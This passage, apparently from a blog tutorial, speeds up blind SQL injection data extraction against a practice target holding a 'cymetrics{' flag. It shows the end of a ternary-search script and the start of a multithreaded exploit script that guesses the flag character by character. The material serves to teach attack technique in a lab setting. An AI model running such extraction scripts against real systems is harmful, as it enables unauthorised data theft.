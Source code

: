 ``` python
        result += group[0]
        break
      
    else:
      if data[0]["name"] == "home1":
        L = ML
        R = MR
        if len(group[1]) == 1:
          result += group[1]
          break
      else:
        L = MR
        if len(group[2]) == 1:
          result += group[2]
          break

print(f"time: {time.time() - start}s")
```

The result of running it looks like this:

![](/img/sql-injection-in-action/p3.png)

It took 45 seconds, which is twice as fast as the previous method.

### Final acceleration: Multi-threading

Previously, we waited for one request to return before sending the next one. But we can actually use multiple threads to send requests at the same time. For example, each thread can guess a fixed position value, which should speed up the attempts.

Although the number of attempts is the same, the number of attempts per second is increased, so the overall time is naturally reduced.

Below is the code for a simple implementation. You need to know the length of the final string first, and a more sophisticated approach is to first search for the length of the data to be retrieved, and then retrieve the data itself:

``` python
# exploit-search-thread.py
import requests
import time
import json
import urllib.parse
import concurrent.futures

def print_success(raw):
  print(f"\033[92m{raw}\033[0m")

def encode(raw):
  return urllib.parse.quote(raw.encode('utf8'))

host = 'https://od-php.herokuapp.com/sql'
char_index = 0
char_set = '}abcdefghijklmnopqrstuvwxyz_'
flag = 'cymetrics{'

def get_char(index):
  L = 0
  R = len(char_set) - 1
  prefix = flag + "_" * index
  while L<=R:
    s = (R-L) // 3
    ML = L + s
    MR = L + s * 2
```